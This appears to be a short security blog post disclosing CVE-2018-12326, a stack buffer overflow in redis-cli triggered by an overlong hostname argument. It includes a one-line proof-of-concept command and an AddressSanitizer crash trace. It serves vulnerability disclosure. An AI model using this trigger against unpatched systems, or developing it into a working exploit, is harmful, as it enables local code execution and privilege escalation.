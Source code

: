 ```yaml
---
layout: post
title: "[CVE-2018-12326] Redis-cli Stack-based Buffer Overflow"
date: 2018-06-13
categories:
    - blog
keywords: "redis, redis-cli, buffer overflow"
---
```


Buffer overflow in redis-cli of Redis version 3.2, 4.0, and 5.0 allows a local attacker to achieve code execution and escalate to higher privileges via a long string in the hostname parameter.

```
$ ./src/redis-cli -h `python -c 'print "A" * 300'`
Could not connect to Redis at AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA:6379: Name or service not known

#0 0x4a4182 in vsnprintf /home/user/llvm/projects/compiler-rt/lib/asan/../sanitizer_common/sanitizer_common_interceptors.inc:1566
#1 0x4a42d0 in snprintf /home/user/llvm/projects/compiler-rt/lib/asan/../sanitizer_common/sanitizer_common_interceptors.inc:1637
#2 0x570159 in repl /home/user/redis/src/redis-cli.c:1624:5
#3 0x55ba77 in main /home/user/redis/src/redis-cli.c:6660:9
#4 0x7f6be5f6e82f in __libc_start_main /build/glibc-Cl5G7W/glibc-2.23/csu/../csu/libc-start.c:291
#5 0x4247a8 in _start (/home/user/redis/src/redis-cli+0x4247a8)
```
---
References:
1. https://raw.githubusercontent.com/antirez/redis/4.0/00-RELEASENOTES
2. https://raw.githubusercontent.com/antirez/redis/5.0/00-RELEASENOTES
